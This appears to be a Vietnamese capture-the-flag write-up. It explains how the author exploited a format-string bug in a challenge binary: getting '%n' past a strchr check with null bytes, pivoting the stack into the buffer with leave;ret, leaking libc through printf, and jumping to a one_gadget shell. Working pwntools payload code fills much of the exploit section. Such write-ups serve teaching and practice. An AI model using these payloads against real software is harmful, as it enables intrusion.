 **1. Tìm bug**
  - Xem qua ida, hàm main không có gì hot chủ yếu call vuln
  - ![image](https://user-images.githubusercontent.com/113702087/214854559-43ddf861-53ed-44a1-b81e-987c0c1dc774.png)
  - ở đây ta thấy ngay lỗi fmt, có một chút trở ngại để thực hiện %n vì khi nhập chuỗi s được kiểm tra qua hàm strchr
  - ta có thể lợi dụng điểm dừng của hàm strchr là null byte để đưa %n vào, đồng thời dùng %c để kéo dãn độ dài s bù vào null byte đó thì có thể thực thi được %n
  - Sau khi debug vài lần thì thấy rằng ```'%6c' + b'\x00'*6' + fmt'``` thì có thể thực thi fmt được với fmt có %n được setup sẵn
  - ![image](https://user-images.githubusercontent.com/113702087/214909361-7d68a056-02bf-43b9-9ade-38e12a00aea0.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214909428-029d364d-396a-441c-a476-10e5d81b1aab.png)

**2. Ý tưởng**
  - Tôi sẽ thay đổi saverbp thành 1 địa chỉ nằm trong khoảng buf và saverip thành leave ; ret lúc này rsp sẽ thành (rbp + 8) và vì nằm trong khoảng buf nên ta có thể ghi các ROP vào
  - Do mỗi khi thực hiện fmt thì các dữ liệu đều được ghi vào đó khiến việc setup địa chỉ trong stack khá khó khăn vì có thể bị các dữ liệu mới ghi đè vào, cũng như chỉ có thể ghi được 1 byte và không quá lớn
  - ![image](https://user-images.githubusercontent.com/113702087/215037508-00decbc8-7d7e-4c05-bd12-bc4a797bb640.png)
  - Tôi đã test thử '%20c%24$n'
  - ![image](https://user-images.githubusercontent.com/113702087/215037561-7a564f07-c5ef-4972-818a-950e0c71068b.png)
  - Chúng ta có thể thấy sự thay đổi của stack
  - Byte của saverip cần chuyển là 0xad = 173, đây sẽ là byte lớn nhất vì nếu lớn hơn thì số lượng gadget càng ít, từ (buf + 0xad) các dữ liệu trên stack sẽ không bị ghi đè
  -  Để địa chỉ nguyên vẹn ta sẽ làm tròn thành 0xb0, từ (buf + 0xb0) trở đi ta có thể ghi các địa chỉ cần ghi đè và ROP
  - Ở đây tôi chỉ ghi 2 địa chỉ do đó các ROP sẽ bắt đầu ghi từ (buf + 0xc0) -> saverbp mới là (buf + 0xb8) -> ghi được 8 stack, khá ít nhưng thế cũng là đủ

**3. Exploit**
  - **leak địa chỉ buf và tính cách giá trị cho fmt**
  ```
  r.recvuntil(b'at ')
out = r.recv(14)
buff_addr = int(out, 16)
print(hex(buff_addr))


saverip = buff_addr + 280
saverbp = buff_addr + 288
rbp_addr = buff_addr + 272
leave_ret = 0x00000000004012ad

libc.sym['one_gadget'] = 0xe3b01



new_saverbp = buff_addr + 184
print('buff_add: ' + hex(new_saverbp))
s_newsaverbp = str(hex(new_saverbp))
off_set = int('0x' + s_newsaverbp[12:14], 16)
print(off_set)
  ```
  
  ```
  if off_set - 9 < 0:
    r.close()
elif off_set > 0xad :
    r.close()
  ```
  - ở đây offset cho %n phải > 9 do %6c đã tạo ra 9 byte nên lúc ghi vào sẽ >= 9 byte, đồng thời phải < 0xad là byte của saverip mới ( leave ; ret )
  - **Tạo payload**
  ```
  payload = b'%6c'.ljust(8, b'\x00') + b'\x00' + b'%' + str(off_set - 9).encode('utf-8') + b'c%27$hhn' + b'%' + str(0xad - off_set).encode('utf-8') + b'c%28$hhn' 
payload = payload.ljust(56, b'\x00') + b'\x00'*120 + p64(rbp_addr) + p64(saverip) + p64(pop_rdi) + p64(exe.got['printf']) + p64(exe.sym['printf']) + p64(ret) + p64(exe.sym['vuln']) + p64(pop_rbp) + p64(buff_addr) + p64(leave_ret)
  ```
  - Ban đầu leak libc rồi thực thi lại vuln để ghi onegadget tiếp đó thay đổi rbp và leave ; ret vào onegadget
  - **Leak libc**
  ```
  out = r.recv(6)
print(out)
libc_leak = u64(out + b'\x00'*2)
libc.address = libc_leak - libc.sym['printf']
print('libc_base: ' + hex(libc.address))
print('one_gadget: ' + hex(libc.sym['one_gadget']))
  ```
  - **Gửi payload có onegadget**
  ```
  payload = b'n'*55 + p64(libc.sym['one_gadget'])
r.sendlineafter(b': ', payload)
  ```
  - **Get shell**
  - ![image](https://user-images.githubusercontent.com/113702087/215040212-56973d58-24ab-41ea-a351-4b14b6990022.png)
  
